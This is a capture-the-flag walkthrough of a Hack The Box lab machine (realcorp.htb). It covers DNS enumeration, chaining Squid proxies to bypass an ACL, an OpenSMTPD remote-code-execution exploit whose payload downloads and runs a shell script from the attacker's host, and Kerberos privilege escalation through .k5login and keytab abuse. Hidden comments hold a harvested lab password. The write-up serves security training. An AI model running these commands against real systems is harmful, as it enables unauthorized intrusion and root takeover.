





<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.10.224 realcorp.htb

**nmap scan:**
```bash
PORT     STATE SERVICE      VERSION
22/tcp   open  ssh          OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 8d:dd:18:10:e5:7b:b0:da:a3:fa:14:37:a7:52:7a:9c (RSA)
|   256 f6:a9:2e:57:f8:18:b6:f4:ee:03:41:27:1e:1f:93:99 (ECDSA)
|_  256 04:74:dd:68:79:f4:22:78:d8:ce:dd:8b:3e:8c:76:3b (ED25519)
53/tcp   open  domain       ISC BIND 9.11.20 (RedHat Enterprise Linux 8)
| dns-nsid: 
|_  bind.version: 9.11.20-RedHat-9.11.20-5.el8
88/tcp   open  kerberos-sec MIT Kerberos (server time: 2021-06-11 01:59:57Z)
3128/tcp open  http-proxy   Squid http proxy 4.11
|_http-server-header: squid/4.11
|_http-title: ERROR: The requested URL could not be retrieved
Service Info: Host: REALCORP.HTB; OS: Linux; CPE: cpe:/o:redhat:enterprise_linux:8
```

* Found hostname: `REALCORP.HTB`

# Foothold

## DNS Enumeration

### dig

Using `dig` command to retrieve "Any information" from dns server.
```bash
❯ dig ANY @10.10.10.224 realcorp.htb

; <<>> DiG 9.16.15-Debian <<>> ANY @10.10.10.224 realcorp.htb
; (1 server found)
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 50689
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 2, AUTHORITY: 0, ADDITIONAL: 2

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
; COOKIE: afc582c6ef7a34cce441fefa60c2e1e152f74c0432c1996b (good)
;; QUESTION SECTION:
;realcorp.htb.			IN	ANY

;; ANSWER SECTION:
realcorp.htb.		259200	IN	SOA	realcorp.htb. root.realcorp.htb. 199609206 28800 7200 2419200 86400
realcorp.htb.		259200	IN	NS	ns.realcorp.htb.

;; ADDITIONAL SECTION:
ns.realcorp.htb.	259200	IN	A	10.197.243.77

;; Query time: 620 msec
;; SERVER: 10.10.10.224#53(10.10.10.224)
;; WHEN: Fri Jun 11 15:05:24 IST 2021
;; MSG SIZE  rcvd: 143
```

* Found internal host IP `10.197.243.77` which is running nameservers.

### dnsenum

Bruteforce hosts from dns server.
```bash
❯ dnsenum --threads 64 --dnsserver 10.10.10.224 -f /usr/share/seclists/Discovery/DNS/namelist.txt realcorp.htb
-----   realcorp.htb   -----

... [snip] ...

Name Servers:
______________

ns.realcorp.htb.                         259200   IN    A        10.197.243.77

... [snip] ...

Brute forcing with /usr/share/seclists/Discovery/DNS/namelist.txt:
___________________________________________________________________

ns.realcorp.htb.                         259200   IN    A        10.197.243.77
proxy.realcorp.htb.                      259200   IN    CNAME    ns.realcorp.htb.
ns.realcorp.htb.                         259200   IN    A        10.197.243.77
wpad.realcorp.htb.                       259200   IN    A        10.197.243.31

... [snip] ...
done.
```

* Host on `10.197.243.77` also running proxy server.
* and there is another host running wpad(?)
  * **[wpad](https://en.wikipedia.org/wiki/Web_Proxy_Auto-Discovery_Protocol)**(Web Proxy Auto-Discovery Protocol) is a method used by clients to locate the URL of a configuration file using DHCP and/or DNS discovery methods. 

There is another way to reverse dns bruteforce with `dnsrecon`, on entire subnet. 
```bash
❯ dnsrecon -r 10.197.243.0/24 -n 10.10.10.224 -d realcorp.htb
[*] Reverse Look-up of a Range
[*] Performing Reverse Lookup from 10.197.243.0 to 10.197.243.255
[+] PTR wpad.realcorp.htb 10.197.243.31
[+] PTR ns.realcorp.htb 10.197.243.77
[+] 2 Records Found
```

## squid proxy

There is a http-porxy running. which also leaking some information.



* Subdomain: `srv01.realcorp.htb`
* Email: `j.nakazawa@realcorp.htb`
* Username: `j.nakazawa`

Because [zone transfer](https://en.wikipedia.org/wiki/DNS_zone_transfer) in not available
```bash
❯ dig axfr realcorp.htb @10.10.10.224

; <<>> DiG 9.16.15-Debian <<>> axfr realcorp.htb @10.10.10.224
;; global options: +cmd
; Transfer failed.
```

we can use this proxy to access internal proxy.

Setup `proxychains` to send traffic through the squid proxy
and `/etc/proxychains.conf`
```bash
... [snip] ...
[ProxyList]
# add proxy here ...
#tentacle
http	10.10.10.224	3128    #Go through the squid proxy
http	127.0.0.1   3128        #go through localhost to bypass ACL
http    10.197.243.77   3128    #connect to internal proxy
```

* Access control list (ACL) files are text files containing lists that define who can access Proxy Server resources. By default, the Proxy Server uses one ACL file that contains all of the lists for access to your server.
* In this case proxy server restrict external IP to access internal host but localhost allowed.

and now we can access to internal host `10.197.243.31`
```bash
❯ proxychains curl -I http://10.197.243.31/
[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14
[proxychains] Strict chain  ...  10.10.10.224:3128  ...  127.0.0.1:3128  ...  10.197.243.77:3128  ...  10.197.243.31:80  ...  OK
HTTP/1.1 200 OK
Server: nginx/1.14.1
Date: Fri, 11 Jun 2021 04:55:25 GMT
Content-Type: text/html
Content-Length: 4057
Last-Modified: Mon, 07 Oct 2019 21:16:24 GMT
Connection: keep-alive
ETag: "5d9bab28-fd9"
Accept-Ranges: bytes
```

port 80 on internal host is running nginx. *Run `proxychains firefox` command to run firefox browser with proxychains*


host `wpad.realcorp.htb` giving 403 on port 80.


## ffuf with multi-proxy

while ffuf or gobuster don't support multi-proxy fuzzing i found a hacky solution from [github-issue](https://github.com/ffuf/ffuf/issues/50)

1. Configure the proxies I want to use in [proxychains](https://github.com/rofl0r/proxychains-ng)

```bash
... [snip] ...
http	10.10.10.224	3128
http	127.0.0.1   3128
http    10.197.243.77   3128
```

2. Use proxychains to start a local instance of [proxy.py](https://pypi.org/project/proxy.py/)

```bash
❯ proxychains proxy
[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14
2021-06-11 18:15:19,817 - pid:13772 [I] load_plugins:334 - Loaded plugin proxy.http.proxy.HttpProxyPlugin
2021-06-11 18:15:19,818 - pid:13772 [I] listen:113 - Listening on ::1:8899
2021-06-11 18:15:19,840 - pid:13772 [I] start_workers:136 - Started 8 workers
```
3. Use ffuf single proxy feature (-x) to point it to my local proxy.py instance

```bash
❯ ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-small-files.txt:FUZZ -u http://wpad.realcorp.htb/FUZZ -x 'http://::1:8899' -v

#... [snip] ...

[Status: 301, Size: 185, Words: 6, Lines: 8]
| URL | http://wpad.realcorp.htb/.
| --> | http://wpad.realcorp.htb/./
    * FUZZ: .

[Status: 200, Size: 342, Words: 60, Lines: 11]
| URL | http://wpad.realcorp.htb/wpad.dat
    * FUZZ: wpad.dat

:: Progress: [11424/11424] :: Job [1/1] :: 67 req/sec :: Duration: [0:02:54] :: Errors: 52 ::
```

and found `wpad.dat` from `wpad.realcorp.htb`.

[wpad](https://en.wikipedia.org/wiki/Web_Proxy_Auto-Discovery_Protocol)(Web Proxy Auto-Discovery Protocol) is a server provides client proxy settings via a particular URL (e.g., `http://wpad.example.org/wpad.dat`)
```bash
❯ proxychains -q curl -s http://wpad.realcorp.htb/wpad.dat
function FindProxyForURL(url, host) {
    if (dnsDomainIs(host, "realcorp.htb"))
        return "DIRECT";
    if (isInNet(dnsResolve(host), "10.197.243.0", "255.255.255.0"))
        return "DIRECT"; 
    if (isInNet(dnsResolve(host), "10.241.251.0", "255.255.255.0"))
        return "DIRECT"; 
 
    return "PROXY proxy.realcorp.htb:3128";
}
```

and get another internal subnet `10.241.251.0/24`

Running `dnsrecon` for reverse dns bruteforce.
```bash
❯ proxychains -q dnsrecon -r 10.241.251.0/24 -n 10.10.10.224 -d realcorp.htb
[*] Reverse Look-up of a Range
[*] Performing Reverse Lookup from 10.241.251.0 to 10.241.251.255
[+] PTR srvpod01.realcorp.htb 10.241.251.113
[+] 1 Records Found
```

* Found another host on `10.241.251.113`.

Running nmap scan found port 25 smtp
```bash
❯ proxychains -q nmap --top=10 --open -sC -sV 10.241.251.113
Starting Nmap 7.91SVN ( https://nmap.org ) at 2021-06-11 17:21 IST
Nmap scan report for 10.241.251.113
Host is up (2.1s latency).
Not shown: 9 closed ports
PORT   STATE SERVICE VERSION
25/tcp open  smtp    OpenSMTPD
| smtp-commands: smtp.realcorp.htb Hello nmap.scanme.org [10.241.251.1], pleased to meet you, 8BITMIME, ENHANCEDSTATUSCODES, SIZE 36700160, DSN, HELP, 
|_ 2.0.0 This is OpenSMTPD 2.0.0 To report bugs in the implementation, please contact bugs@openbsd.org 2.0.0 with full details 2.0.0 End of HELP info 
Service Info: Host: smtp.realcorp.htb
```

## OpenSMTPD RCE

Found Remote Code Execution from searchsploit
```bash
❯ searchsploit OpenSMTPD
------------------------------------------------------------ ---------------------------------
 Exploit Title                                              |  Path
------------------------------------------------------------ ---------------------------------
... [snip] ...
OpenSMTPD 6.6.1 - Remote Code Execution                     | linux/remote/47984.py
... [snip] ...
------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

**[CVE-2020-7247](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-7247):** smtp_mailaddr in smtp_session.c in OpenSMTPD 6.6, as used in OpenBSD 6.6 and other products, allows remote attackers to execute arbitrary commands as root via a crafted SMTP session, as demonstrated by shell metacharacters in a MAIL FROM field. This affects the "uncommented" default configuration. The issue exists because of an incorrect return value upon failure of input validation. **[Exploit](https://www.exploit-db.com/exploits/47984)**

only change requires in exploit script is `RCPT <email>`(a valid user email) which we found from squid leak `j.nakazawa@realcorp.htb`


Getting reverse shell with python web server and wget.
```bash
proxychains python smtp-rce.py 10.241.251.113 25 'wget -q -O ss.sh 10.10.15.71/shell.sh;bash ss.sh'
```




# Privesc

## ssh with kerberos token

get root shell on smtp server host.

user which email found from squid is in this box. Found msmtp(an SMTP client) config file in his home folder and config file contains user's creds.


<!--j.nakazawa:sJB}RM>6Z~64_-->

creds not working for ssh but working for [kerberos](https://ubuntu.com/server/docs/service-kerberos).

**kerberos** is a computer-network authentication protocol that works on the basis of tickets to allow nodes communicating over a non-secure network to prove their identity to one another in a secure manner.

that means we can create token from `krb5-user` tool to login to ssh as user "j.nakazawa"

install Package with `sudo apt install krb5-user`

configure `/etc/krb5.conf`
```conf
[libdefaults]
	default_realm = REALCORP.HTB

[realms]
        REALCORP.HTB = {
                kdc = REALCORP.HTB
                admin_server = REALCORP.HTB
                default_domain = REALCORP.HTB
	}

[domain_realm]
        .realcorp.htb = REALCORP.HTB
```



and get the auth token for user "j.nakazawa"

but Login with the token is not working and after some research found [solution](https://uz.sns.it/~enrico/site/posts/kerberos/password-less-ssh-login-with-kerberos.html)

**GSSAPI**(Generic Security Services API) allows applications to communicate securely using Kerberos 5 or other security mechanisms.

SSH login command
```bash
kinit j.nakazawa
klist
ssh -o GSSAPIAuthentication=yes -o GSSAPIDelegateCredentials=yes -o GSSAPIServerIdentity=srv01.realcorp.htb j.nakazawa@REALCORP.HTB
```
<!--
sJB}RM>6Z~64_
-->


**Update:** `GSSAPIAuthentication` already enables by default from ssh config file so `-o GSSAPIAuthentication=yes -o GSSAPIDelegateCredentials=yes` are not required, the real reason for this to not work because GSSAPI checking for user in `REALCORP.HTB`'s krb database but user is in `srv01.realcorp.htb` and if we add `srv01.realcorp.htb` in `hosts` file and login with this host, it still won't work because GSSAPI takes first host name from `/etc/hosts` file, for this problem we can use `GSSAPIServerIdentity` to specify host which to look for.

## k5login

Found crontab running `/usr/local/bin/log_backup.sh` as user "admin" on `srv01` host
```bash
* * * * * admin /usr/local/bin/log_backup.sh
```

```bash
[j.nakazawa@srv01 krb5.conf.d]$ cat /usr/local/bin/log_backup.sh
#!/bin/bash

/usr/bin/rsync -avz --no-perms --no-owner --no-group /var/log/squid/ /home/admin/
cd /home/admin
/usr/bin/tar czf squid_logs.tar.gz.`/usr/bin/date +%F-%H%M%S` access.log cache.log
/usr/bin/rm -f access.log cache.log
```

script is syncing `/var/log/squid/` to `/home/admin/`, that means all file from `/var/log/squid/` directory copy to `/home/admin/` and than creates tar archive from these file.

Found a login technique with kerberos with `.k5login` config file from [kerberos docs](https://web.mit.edu/kerberos/krb5-devel/doc/user/user_config/k5login.html)

**EXAMPLES**

Suppose the user "alice" had a `.k5login` file in her **home directory** containing just the following line:
```bash
bob@FOOBAR.ORG
```
This would allow user "bob" to use Kerberos network applications, such as `ssh`, to **access alice‘s account**, using **bob‘s Kerberos tickets**.

and we can use this technique to login to user "admin" with running cronjob.

**Create `.k5login` file in the `/var/log/squid/` folder.**

*user "j.nakazawa" is in squid group but `/var/log/squid` directory don't have read permission.*


```bash
echo 'j.nakazawa@REALCORP.HTB' > /var/log/squid/.k5login
```

and ssh to "admin" with user "j.nakazawa" token 




## kadmin

Runing linpeas from "admin" found some interesting kerberos information.

Found [kadmin](https://web.mit.edu/kerberos/krb5-1.12/doc/admin/admin_commands/kadmin_local.html) utility
```bash
kadmin was found on /usr/bin/kadmin
```

Found readable [`krb5.keytab`](https://web.mit.edu/kerberos/krb5-1.5/krb5-1.5.4/doc/krb5-install/The-Keytab-File.html) file
```bash
keytab file found, you may be able to impersonate some kerberos principals and add users or modify passwords
Keytab name: FILE:/etc/krb5.keytab
KVNO Principal
---- --------------------------------------------------------------------------
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
  --- Impersonation command: kadmin -k -t /etc/krb5.keytab -p "host/srv01.realcorp.htb@REALCORP.HTB"
  --- Impersonation command: kadmin -k -t /etc/krb5.keytab -p "host/srv01.realcorp.htb@REALCORP.HTB"
  --- Impersonation command: kadmin -k -t /etc/krb5.keytab -p "host/srv01.realcorp.htb@REALCORP.HTB"
  --- Impersonation command: kadmin -k -t /etc/krb5.keytab -p "host/srv01.realcorp.htb@REALCORP.HTB"
  --- Impersonation command: kadmin -k -t /etc/krb5.keytab -p "host/srv01.realcorp.htb@REALCORP.HTB"
  --- Impersonation command: kadmin -k -t /etc/krb5.keytab -p "kadmin/changepw@REALCORP.HTB"
  --- Impersonation command: kadmin -k -t /etc/krb5.keytab -p "kadmin/changepw@REALCORP.HTB"
  --- Impersonation command: kadmin -k -t /etc/krb5.keytab -p "kadmin/changepw@REALCORP.HTB"
  --- Impersonation command: kadmin -k -t /etc/krb5.keytab -p "kadmin/changepw@REALCORP.HTB"
  --- Impersonation command: kadmin -k -t /etc/krb5.keytab -p "kadmin/changepw@REALCORP.HTB"
  --- Impersonation command: kadmin -k -t /etc/krb5.keytab -p "kadmin/admin@REALCORP.HTB"
  --- Impersonation command: kadmin -k -t /etc/krb5.keytab -p "kadmin/admin@REALCORP.HTB"
  --- Impersonation command: kadmin -k -t /etc/krb5.keytab -p "kadmin/admin@REALCORP.HTB"
  --- Impersonation command: kadmin -k -t /etc/krb5.keytab -p "kadmin/admin@REALCORP.HTB"
  --- Impersonation command: kadmin -k -t /etc/krb5.keytab -p "kadmin/admin@REALCORP.HTB"
```

we can use keytab admin principal to authenticate into Kerberos V5 administration system console. 
```bash
kadmin -k -t /etc/krb5.keytab -p "kadmin/admin@REALCORP.HTB"
# -t keytab file
# -k use that keytab file to authenticate
# -p specify principal
```

A Kerberos principal is a unique identity to which Kerberos can assign tickets. if we create principal for root user than we can use "[ksu](https://web.mit.edu/kerberos/krb5-latest/doc/user/user_commands/ksu.html)" to change user to root.

with `add_principal` command we can add keytab principal, But it This command requires the "add" privilege.

**Check privileges with `get_privs` command**
```bash
kadmin:  get_privs
current privileges: INQUIRE ADD MODIFY DELETE
```

**adding principal**
```bash
add_principal root@REALCORP.HTB
```

**than change user to root**
```bash
ksu root
```


